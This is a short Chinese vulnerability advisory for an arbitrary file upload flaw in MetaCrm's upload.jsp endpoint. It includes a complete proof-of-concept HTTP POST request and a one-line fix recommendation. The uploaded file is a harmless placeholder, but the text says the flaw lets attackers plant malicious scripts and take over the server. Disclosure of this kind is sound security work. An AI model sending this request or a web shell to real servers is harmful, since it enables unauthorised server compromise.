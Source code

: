 ﻿@[toc]
# 漏洞描述
北京美特软件技术有限公司（以下简称“美特软件”）是一家专业的客户关系管理软件提供商。

美特软件MetaCrm存在文件上传漏洞，攻击者可利用该漏洞上传任意恶意文件。
# 漏洞原理
在系统upload.jsp接口存在任意文件上传漏洞，攻击者可通过改漏洞上传恶意脚本从而控制该服务器

# 漏洞复现
访问/develop/systparam/softlogo/upload.jsp接口构造请求包
```yaml
POST /develop/systparam/softlogo/upload.jsp?key=null&form=null&field=null&filetitle=null&folder=null& HTTP/1.1
Host: xxxx
Content-Length: 661
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0Mh3BfgWszxRFokh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Referer: http://x.x.x.x/develop/systparam/softlogo/file2.jsp
Connection: close

------WebKitFormBoundary0Mh3BfgWszxRFokh
Content-Disposition: form-data; name="file"; filename="1"
Content-Type: text/plain

1
------WebKitFormBoundary0Mh3BfgWszxRFokh
Content-Disposition: form-data; name="key"

null
------WebKitFormBoundary0Mh3BfgWszxRFokh
Content-Disposition: form-data; name="form"

null
------WebKitFormBoundary0Mh3BfgWszxRFokh
Content-Disposition: form-data; name="field"

null
------WebKitFormBoundary0Mh3BfgWszxRFokh
Content-Disposition: form-data; name="filetitile"

null
------WebKitFormBoundary0Mh3BfgWszxRFokh
Content-Disposition: form-data; name="filefolder"

null
------WebKitFormBoundary0Mh3BfgWszxRFokh--
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/54ece4c198e04ae8b9b89e48d4d4b2a7.png)
上传成功

# 修复建议
升级到最新版


